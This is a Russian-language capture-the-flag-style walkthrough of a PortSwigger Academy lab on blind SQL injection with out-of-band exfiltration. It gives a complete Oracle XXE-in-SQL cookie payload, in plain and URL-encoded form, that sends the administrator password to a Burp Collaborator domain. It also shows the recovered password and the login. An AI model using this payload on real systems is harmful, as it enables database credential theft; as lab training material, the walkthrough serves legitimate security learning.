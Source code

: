 Перейдем на корневую страницу, и найдем в `Proxy` -> `HTTP history` запрос, содержащий `Cookie`, и отправим его в `Repeater`
```
GET /
Cookie: TrackingId=rnmv0m5YblI4LwWw;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/13.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/pics%20for%20walktrough/1.png)
Далее перейдем в читлист, предлагаемый авторами лабораторной работы, и найдем там запрос для Oracle DB
```
https://portswigger.net/web-security/sql-injection/cheat-sheet
```
И найдем там следующий запрос
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
далее в этот запрос нам нужно вписать нашу квери, которая нам поможет узнать пароль от админа
и хост, на который будет слаться запрос


сформируем квери 
```
SELECT password from users where username='administrator'
```
И сформируем DGA-домен, на который будет выполнен запрос с пароем от админа с помощью `Collaborator`
```
y21plrbn2c2g5nrtthb56qdrkiq9ez2o.oastify.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/13.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/pics%20for%20walktrough/2.png)
Далее соберем все вышеперечисленное воедино
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.y21plrbn2c2g5nrtthb56qdrkiq9ez2o.oastify.com/"> %remote;]>'),'/l') FROM dual
```
Полный наш запрос будет выглядеть как 
```
...
Cookie: TrackingId=rnmv0m5YblI4LwWw' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.y21plrbn2c2g5nrtthb56qdrkiq9ez2o.oastify.com/"> %remote;]>'),'/l') FROM dual)--;
...
```
Или же в URL кодировке (ctrl+U)
```
Cookie: TrackingId=rnmv0m5YblI4LwWw' ||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users+where+username%3d'administrator')||'.y21plrbn2c2g5nrtthb56qdrkiq9ez2o.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--;
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/13.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/pics%20for%20walktrough/3.png)
Следуюзщим этапом вернемся в раздел `Collaborator`, нажмем на `poll now`, и увидим, какой запрос поступил на наш DGA-домен
```
brhg1rc4d8lncnzsqpck.y21plrbn2c2g5nrtthb56qdrkiq9ez2o.oastify.com.
```
где `brhg1rc4d8lncnzsqpck` пароль от УЗ Administrator, а `y21plrbn2c2g5nrtthb56qdrkiq9ez2o.oastify.com` наш DGA-домен, сформированный ранее
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/13.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/pics%20for%20walktrough/4.png)
Залогинимся под `administrator:brhg1rc4d8lncnzsqpck` и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/13.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration/pics%20for%20walktrough/5.png)
